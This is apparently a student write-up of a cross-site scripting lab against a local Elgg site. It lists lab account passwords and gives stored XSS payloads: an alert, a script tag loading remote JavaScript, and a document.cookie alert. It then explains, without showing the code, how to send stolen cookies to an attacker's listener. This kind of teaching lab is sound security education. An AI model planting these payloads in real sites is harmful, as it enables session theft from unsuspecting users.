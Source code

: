 ```
boby | seedboby
charlie | seedcharlie
samy | seedsamy
----------------------------
```
  
  
# 3. Lab Tasks
**3.1: Preparation: Getting Familiar with the "HTTP Header Live" tool** 
In this Lab we need to construct HTTP requests. To know what an acceptable HTTP request in Elgg Website looks like, we need to capture and analyze the HTTP request. For this purpose, we are using `HTTP Header Live` firefox add-on.

**Task 1: Posting a Malicious Message to Display an Alert Window** 
- **Objective:** The objective of this task is to insert a JavaScript program in your Elgg profile so that, when another user opens your profile, the JavaScript program gets executed and an alert window comes up.

```
<script>alert(’XSS’);</script>
```

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>
```

- Embedding any one of the above javascript codes in the profile will see the alert window.

**Task 2: Posting a Malicious Message to Display Cookieso** 
- **Objective:** The objective of this task is to include a JavaScript program in your Elgg profile such that, when another user accesses your profile the user's cookies will be show in the alert window.

```
<script> alert(document.cookie); </script>
```

- Using the above javascript code similarly like the above task, alert window will be popedup.

**Task 3: Stealing Cookies from the Victim’s Machine** 
- The malicious JavaScript code written in the previous task can print out the user's cookies, but only the user can see the cookies-not the attacker.
- **Objective:** The objective of this task is that the attacker wants the JavaScript code to send the cookies to himself/herself.
- In order to achieve that, the malicious JavaScript code needs to send an HTTP request to the attacker, appending the cookies to the request.
- We can do this by having the malicious JavaScript insert an `<img>` tag whose `src` attribute is set to the attacker's machine.
- As the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field; this results in an HTTP GET request sent to the attacker's machine.
- Below is a JavaScript that sends the cookies to port 5555 of the attacker's machine, at IP address `10.9.0.1`, where the attacker is running a TCP server listening on the same port.
